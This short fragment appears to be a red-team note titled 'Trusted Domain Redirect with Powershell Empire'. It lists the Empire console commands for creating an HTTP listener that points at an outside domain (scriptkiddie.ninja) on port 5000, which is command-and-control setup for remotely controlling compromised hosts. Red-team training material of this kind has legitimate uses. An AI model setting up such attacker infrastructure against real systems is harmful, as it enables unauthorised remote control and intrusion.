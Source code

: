 # Trusted Domain Redirect with Powershell Empire

# Team Server
Enter “listeners”
Enter “uselistener http”
set Name httpScriptkiddie
set Host http://scriptkiddie.ninja:80
set Port 5000
execute
